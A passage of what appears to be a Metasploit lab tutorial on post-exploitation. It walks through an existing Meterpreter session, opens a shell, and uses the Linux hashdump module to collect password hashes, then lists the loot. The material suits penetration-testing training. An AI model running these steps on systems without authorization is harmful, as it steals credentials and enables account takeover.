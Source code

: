 - Check the current user ID:

    ```bash
    getuid
    ```

- Open a shell session to check who is logged in:

    ```bash
    shell
    whoami
    ```

Exit the shell and put the session in the background:

```bash
Terminate
background
```

### Using the Hashdump Module

Search for the **hashdump** module:

```bash
search hashdump
```

Use the **Linux hashdump** module to gather password hashes:

```bash
use post/linux/gather/hashdump
```

Show the available options:

```bash
show options
```

Set the **Meterpreter session** (replace `[meterpreter session]` with the actual session ID):

```bash
set session [meterpreter session]
```

Run the module to dump the hashes:

```bash
run
```

### Reviewing and Accessing the Dumped Hashes

The **hashdump** module will provide the path to the file containing the dumped password hashes. You can list all captured information using the **loot** command:

```bash
loot
```
